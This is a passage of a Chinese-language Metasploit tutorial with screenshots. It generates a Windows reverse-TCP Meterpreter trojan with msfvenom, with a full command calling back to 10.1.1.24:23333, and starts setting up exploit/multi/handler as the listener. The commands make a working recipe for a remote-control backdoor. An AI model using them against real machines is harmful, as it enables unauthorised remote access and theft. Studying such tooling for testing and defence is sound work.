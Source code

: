 可以执行msfvenom -l 查看payload列表

### 2.2 生成木马

输入ifconfig查看本机网卡信息

![v2-c7227b7adb86aaeb1bd729cb73c07fa0_1440w.jpg](images/1619480571_60874ffbb85ad31a5fd3f.jpg!small)

使用以太网卡eth0:10.1.1.24

查看本机端口占用情况

![v2-e372743420052baee3b92c54c6d22377_1440w.jpg](images/1619480572_60874ffc0e8f01485b15d.jpg!small)

**要时刻注意端口冲突问题**

终端输入msfconsole开启MSF

![v2-3c6d111cecd15e979e8647c8104140cf_1440w.jpg](images/1619480572_60874ffc628a1fe57af6c.jpg!small)![v2-99189749fd9fcd6a847111970cad9b15_1440w.jpg](images/1619480572_60874ffcbe8b6f4fa3200.jpg!small)

本次演示生成Windows木马，推荐使用大端口号

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.1.1.24 LPORT=23333 -f exe > msf.exe
```

![v2-600e48575c7274c4159366b87278b5c6_1440w.jpg](images/1619480573_60874ffd373b56b7de4d4.jpg!small)

成功生成木马

## 0x03 监听

### **3.1 介绍**

模块：exploit/multi/handler

参数说明：

set PAYLOAD <一定要和攻击payload相同>

set LHOST <监听IP>

set LPORT <监听端口>

set ExitOnSession false 设置是否自动断开会话

exploit / run：开启监听

show options：查看当前配置

### **3.2 开启监听**

打开msf，进入监听模块

use exploit/multi/handler

![v2-80a984faf1098fc4aa8a25d768df7242_1440w.jpg](images/1619480573_60874ffd90a77abb11644.jpg!small)
